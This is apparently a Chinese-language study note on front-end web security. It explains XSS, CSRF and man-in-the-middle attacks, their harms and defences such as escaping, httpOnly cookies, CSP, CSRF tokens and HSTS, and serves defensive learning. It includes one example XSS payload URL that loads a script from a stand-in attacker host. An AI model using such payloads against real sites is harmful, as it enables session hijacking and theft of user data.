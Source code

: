 
## web safe

常见的 web 前端安全攻击方式：
- xss 跨站脚本攻击
- csrf 跨站请求伪造
- MITM 中间人攻击


## XSS

跨站脚本攻击: 
在网页中插入恶意的js脚本， 当用户浏览时，就会触发脚本, 造成xss攻击    

### 分类
- 反射型
- 存储型
- DOM型

#### 反射型

用户输入的注入代码 通过浏览器传入到服务器后，又被反射回来，在浏览器中解析执行

demo: 表单输入 `<script src >` 然后回来执行 
电子邮件？ 聊天软件?

#### 存储型
用户输入的注入代码，通过传输，被永久春芳到了目标服务器的数据库或文件中，用户再次访问这个注入代码的页面就出现了

博客论坛留言板

#### DOM型
通过修改页面的dom结构

例子：

攻击者诱导被害者打开链接 hzfe.org?name=<script src="http://a.com/attack.js"/>。

被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。

被害者在不知情的情况下，执行了攻击者注入的脚本。


### 危害 

1. 劫持用户cookie，通过在网页中写入并执行文件，劫持用户浏览器，将用户当前使用的sessionID信息发送至攻击者控制的网站或服务器
2. 利用 iframe frame XHR Flash等，以用户的身份执行一些动作
3. 利用植入flash 通过crossdomain权限设置进一步获取更改权限，或利用java等得到类似操作
4. 挂马
5. 蠕虫
6. 有局限性的键盘记录

### 防范
1. 对外部的输入进行过滤编码和转译
2. 设置 cookie httpOnly 属性, 禁止js读取cookie
3. 开启CSP content security policy, 内容安全策略 ，规定浏览器只能执行特定来源的代码 



## csrf
跨站请求伪造

攻击者盗用用户身份，以用户身份发送恶意请求 

如：在第三方网站上直接放一个img， 就会盗用这个img链接相关的cookie从而发起请求

### 防范

1. csrf token
  在用户请求时需要加入token， 进行身份验证
    - 问题，大型网站添加seesion存储会增加服务器压力
2. http header中添加自定义属性并验证
3. 添加白名单，仅允许安全域名请求
4. 增加验证码验证
5. cookie设置 SameSite 属性，



## MITM 

中间人攻击

主要有两个阶段： 拦截和解密

### 拦截

在用户数据未到达目标设备前拦截，分为主动和被动

1. 主动
  - APR欺骗: 
  - DNS: 冒充域名服务器，将IP进行转发
2. 被动:
  免费的wifi热点 


### 解密

ssl劫持伪造证书 -> ssl剥离 将https降级为http转给用户使用 


### 防范

对开发者:
  - 支持https
  - 开启 hsts (Http strict transport security) 策略，有个缺点是用户首次访问时因还未收到 HSTS 响应头而不受保护

对用户：
  - 尽可能是用https
  - 避免不知名不安全wifi
  - 不忽略不安全的浏览器通知
  - 公共网络下不进行涉及敏感信息交互
  - 用可信的第三方CA厂商，不下载不明来源的证书


